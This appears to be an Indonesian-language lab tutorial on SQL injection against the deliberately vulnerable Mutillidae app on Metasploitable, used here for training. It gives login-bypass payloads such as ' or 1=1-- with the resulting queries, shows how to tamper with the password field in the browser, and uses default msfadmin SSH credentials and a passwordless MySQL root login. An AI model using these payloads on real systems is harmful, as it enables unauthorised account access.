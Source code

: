Lesson 5
--------
### Section 8: SQL Injection: Single Quote Test On Username Field
- **Step 1**    : Buka Login/Register
    ![](/assets/lesson-5/login-register.png)
- **Step 2**    : Ketik `'` di kolom **Name**    
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/quote_test.png)
- **Step 4**    : Anda akan mendapatkan error, jika terjadi error setelah anda login dengan **Name** `'`, berarti backend dari sistem rentan terhadap SQL Injection
    ![](/assets/lesson-5/quote_test_error.png)
        - Query yang dihasilkan:
        ```
        SELECT * FROM accounts WHERE username=''' AND password=''
        ```
    - Query Normal:
        ```
        SELECT * FROM accounts WHERE username='admin' AND password='adminpass'
        ```
    
### Section 9: SQL Injection: By-Pass Password Without Username (Obtain Access #1)
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `' or 1=1-- ` di kolom **Name** dengan spasi di akhir `-- `
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/login2.png)
- **Step 4**    : Anda akan berhasil login dengan akun Admin karena Admin berada pada urutan paling atas pada database. Dengan kondisi `1=1` maka akan menghasilkan kondisi yang selalu benar dan `-- ` berguna untuk comment pada SQL, karena itu query selanjutnya akan dibatalkan **(AND password='')**.
    ![](/assets/lesson-5/login2_berhasil.png)
    - Query yang dihasilkan:
        ```
        SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''
        ```
    - Query yang sebenarnya dikerjakan:
        ```
        SELECT * FROM accounts WHERE username='' or 1=1
        ```
    
### Section 9: SQL Injection: Single Quote Test On Password Field
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada element **type**.
    ![](/assets/lesson-5/inspect-password-to-text.png)
- **Step 6**    : Ketik `'` di kolom **Password**.
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/assets/lesson-5/inspect-password-not-obfuscated.png)
    - Anda akan mendapatkan error
        ![](/assets/lesson-5/password-login-error.png)
    - Query di backend menjadi error, mengindikasikan bahwa backend dari sistem rentan terhadap SQL Injection.
    - Query yang dihasilkan:
        ```
        SELECT * FROM accounts WHERE username='samurai' and password='''
        ```
    - Query Normal:
        ```
        SELECT * FROM accounts WHERE username='samurai' AND password='samurai'
        ```
        
### Section 10: SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada element **type**.
    ![](/assets/lesson-5/inspect-password-to-text.png)
- **Step 6**    : Ketik `' or 1=1-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![]/assets/lesson-5/non-obfused-pass-1.png)
    - Anda akan tetap terlogin sebagai admin bukan samurai, Karena Admin berada pada urutan atas dari hasil query. Hal ini disebabkan oleh desain dari program Multilidae.
        ![](/assets/lesson-5/password-login-admin.png)
- **Step 8**    : Logout

### Section 11: Single Quote Test On Password Field (Obtain Access #3)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada elemen **type**. Ganti elemen maxlength menjadi `50` dan elemen size menjadi `50`
    ![](/assets/lesson-5/inspect-password-size.png)
- **Step 6**    : Ketik `' or (1=1 and username='samurai')-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/assets/lesson-5/non-obfused-pass-2.png)
    - Anda akan berhasil login sebagai `samurai`
        ![](/assets/lesson-5/samurai-logged-in.png)
    - Query yang dihasilkan
        ```
        SELECT * FROM accounts WHERE username='samurai' AND password='' or (1=1 and username='samurai')-- '
        ```

### Database Practice
- **Step 1**    : SSH Metasploitable dengan username `msfadmin` dan password `msfadmin`.
    ```
    ssh msfadmin@10.151.36.64
    ```
- **Step 2**    : Login MySQL dengan user `root` tanpa password
    ```
    mysql -u root
    ```
- **Step 3**    : Pilih database `owasp10`
    ![](/assets/lesson-5/db.png)
- **Step 4**    : Lihat daftar tabel dalam database
    ```
    show tables;
    ```
- **Step 5**    : Lihat isi semua kolom dari tabel `accounts`
    ```
    desc accounts;
    ```
    ![](/assets/lesson-5/db_table.png)
- **Step 6**    : Lihat semua data dari tabel `accounts`
    ```
    select * from accounts;
    ```
     ![](/assets/lesson-5/db_table_records.png)
- **Step 7**    : Contoh SQL Injection
    - `select * from accounts where username = ''  and password = '';`
    - `select * from accounts where username = 'samurai'  and password = 'samurai';`
    - `select * from accounts where username = 'samurai'  and password = 'wrongpassword';`
    - `select * from accounts where username = 'samurai';-- and password = 'wrongpassword';`
    ![](/assets/lesson-5/db_query.png)
- **Step 8**    : Mencoba hasil dari Single Quote(')
    - `select * from accounts where username = '''  and password = '';`, dari section 8, step 2.
    - `';`, dari section 8, step 2.
    - `select * from accounts where username = '' or 1=1; --   and password = '';`, dari section 9, step 2.
    - `select * from accounts where username = 'samurai' and password = '' or 1=1; -- ';`, dari section 10, step 6.
    ![](/assets/lesson-5/db_query_1.png)
    - `select * from accounts where username = 'samurai' and password = '' or (1=1 and username = 'samurai'); -- ';`, dari section 11, step 6.
    ![](/assets/lesson-5/db_query_2.png)
    






    
